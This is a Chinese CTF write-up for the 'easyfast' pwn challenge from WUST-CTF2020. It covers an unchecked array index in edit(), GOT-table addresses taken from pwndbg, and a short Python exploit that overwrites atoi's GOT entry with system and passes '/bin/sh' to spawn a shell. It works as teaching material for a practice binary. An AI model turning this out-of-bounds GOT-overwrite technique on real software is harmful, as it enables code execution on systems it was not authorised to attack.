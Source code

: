 
## easyfast
- 题目描述：
    
    > Author: ColdShield
- 题目附件：[easyfast](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/WUST-CTF2020/pwn/easyfast/easyfast)
- 考察点：数组越界
- 难度：中等
- 初始分值：1000
- 最终分值：1000
- 完成人数：2

### 程序分析

貌似是个fastbin attack入门题，标准的菜单式堆题。

然鹅编辑功能没有检查`index`是否合法，因此还是可以数组越界写。

```c
unsigned __int64 edit(){
  __int64 inedx; // ST08_8
  char s; // [rsp+10h] [rbp-20h]
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("index>");
  fgets(&s, 8, stdin);
  inedx = atoi(&s);
  read(0, buf[inedx], 8uLL);
  return __readfsqword(0x28u) ^ v3;
}
```

> `buf`位于bss段

### 解题思路

依然可以用修改got表的思路，比如改程序中常用的`atoi`函数：

```nasm
[0x602060] setvbuf@GLIBC_2.2.5 -> 0x7ffff7e443d0 (setvbuf) ◂— push   r13
[0x602068] atoi@GLIBC_2.2.5 -> 0x7ffff7e052c0 (atoi) ◂— sub    rsp, 8
[0x602070] exit@GLIBC_2.2.5 -> 0x400786 (exit@plt+6) ◂— push   0xb /* 'h\x0b' */
```

`read(0, buf[inedx], 8)`是向`buf[index]`中的**指针指向的地址**处写8个字节，因此要构造：

`buf[inedx]=addr` & `addr->0x602068`

因此需要找一个指针，指向`atoi`的got表，显然那就是**reloc表**了

```nasm
pwndbg> search -8 0x602068
easyfast        0x400668 push   0x6020 /* 'h `' */
```

找到以后计算偏移量即可：`(0x400668-0x6020c0)/8=-262987`

> 直接用程序中的后门会因为执行system时栈基址偏移量不对导致getshell失败

所以覆盖`atoi`的got表为`system@plt`，然后给`atoi`传一个`"/bin/sh\0"`的参数即可getshell

### exp

```python
shell = elf.sym['system']
sla('choice>\n','3')
sea('index>\n','-262987')
se(p64(shell))
sl('/bin/sh\0')
```

